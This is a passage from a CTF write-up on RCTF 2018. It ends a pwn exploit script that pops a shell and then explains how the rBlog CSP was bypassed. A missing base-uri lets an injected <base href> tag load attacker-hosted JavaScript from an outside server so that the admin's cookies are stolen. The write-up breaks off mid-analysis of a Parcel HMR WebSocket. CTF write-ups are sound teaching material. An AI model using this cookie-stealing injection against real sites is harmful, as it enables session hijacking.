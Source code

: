 ```

log.info('Popping shell')
alloc(0x18, final=True)

p.interactive()

# $ cat flag
# RCTF{Let_us_w4rm_up_with_a_e4sy_NU11_byte_overflow_lul_7adf58}
```



rBlog 2018
--------------------

### Overview

We're greeted with a simple blog  platform, with the possibility to make the admin visit a post. Our objective is to steal the admin cookie.

We quickly found 2 potential XSS, a standard one in the title, and one in the style selector which allows to load local scripts (bypassing the CSP nonce).

The CSP is fairly strict, so we can't use inline js or script tags (because of the nonce): 
```default-src 'none'; script-src 'nonce-0672df2f3f6c548295847afc13c69f87'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'```

#### The intended solution

The intended solution was to upload a image, which contained valid JS code, and to execute the uploaded file using the script inclusion in the style selector.
However, most browsers block script with a audio/video/image MIMEtype, so the uploaded image had to be a WebP (which, apparently, has no MIMEtype).
This is very similar to the PlaidCTF2018 challenge idIoT: Action (with a WAVE file, but the execution is the same).
However, we solved it in another (probably unintended) way:

#### What real hackers do:

By checking carefully the CSP using https://csp-evaluator.withgoogle.com/, we realized the ```base-uri``` directive was missing.
This is a huge oversight: to solve the challenge, all we had to do was to put in the title ```<base href="http://ourserver.com/" target="_blank">```, and to set up ourserver.com to serve a malicious js file at http://npicca.ga:8000/assets/js/jquery.min.js, which will be loaded by the admin. 
We send the page to the admin and we get the cookies:
```RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}; hint_for_rBlog_Rev.2=http://rblog.2018.teamrois.cn/blog.php/52c533a30d8129ee4915191c57965ef4c7718e6d```

rBlog 2018 v2
-------------
In the hint from the previous solution, we found the screenshot of a command line running Parcel Development Server.
We run a copy of that on our server, and found out it has a feature called [Hot Module Replacement](https://parceljs.org/hmr.html). This feature includes a script in the boundle, that connects to a WebSocket server and listen for file updates.

The first problem is that the WebSocket port is randomized at every run of the server, unless specified in the command line (and from the screenshot it's not the case).
Luckily Parcel Development Server has really open [CORS Headers](https://github.com/parcel-bundler/parcel/blob/master/src/Server.js#L20).
We fetched the index and app.js pages using XMLHTTPRequest and found out the WebSocket port. We also found out the site is empty, just an empty html file and a `document.write` troll instruction.

We lost most of our time trying to force the page to connect to another WebSocket server, so we could push a custom update event and inject code into the page. Unfortunatly the address is taken from `location.hostname`, and there's no way to change that variable without loosing access to the cookies.
```